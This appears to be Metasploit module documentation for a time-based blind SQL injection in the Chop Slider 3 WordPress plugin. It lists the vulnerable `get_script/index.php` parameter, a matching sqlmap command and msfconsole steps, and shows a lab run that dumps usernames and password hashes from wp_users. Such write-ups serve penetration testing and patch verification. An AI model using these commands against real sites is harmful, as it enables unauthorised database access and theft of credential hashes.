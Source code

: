 ## Vulnerable Application

The iDangero.us Chop Slider 3 WordPress plugin prior to version 3.4
contains a blind SQL injection in the `id` parameter of the
`get_sript/index.php` page.  The injection is passed through `GET`
parameters, and thus must be encoded, and magic_quotes is applied at the server.

The plugin can be downloaded from
[github](https://github.com/idangerous/Plugins/blob/master/Chop%20Slider%203/Chop%20Slider%203%20Wordpress/Wordpress_ChopSlider_3_4.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://local.target/wp-content/plugins/chopslider/get_script/index.php?id=1111111111' --level=5 --risk=3 --technique=B
```

## Verification Steps

1. Install the plugin and activate it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_chopslider_id_sqli`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of usernames and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### iDangero.us Chop Slider 3.4 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (chopslider.rb)> use auxiliary/scanner/http/wp_chopslider_id_sqli
resource (chopslider.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (chopslider.rb)> set verbose true
verbose => true
resource (chopslider.rb)> set count 3
count => 3
resource (chopslider.rb)> run
[*] Checking /wp-content/plugins/chopslider/readme.txt
[*] Checking /wp-content/plugins/chopslider/Readme.txt
[*] Checking /wp-content/plugins/chopslider/README.txt
[+] Vulnerable version detected
[*] Enumerating Usernames
[*] {SQLi} Executing (select group_concat(qlJEzvIJY) from (select cast(ifnull(user_login,'') as binary) qlJEzvIJY from wp_users limit 3) DSKc)
[*] {SQLi} Time-based injection: expecting output of length 19
[*] Enumerating Password Hashes
[*] {SQLi} Executing (select group_concat(NtxL) from (select cast(ifnull(user_pass,'') as binary) NtxL from wp_users limit 3) YztNPLK)
[*] {SQLi} Time-based injection: expecting output of length 104
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/
 editor      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_chopslider_id_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           editor  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
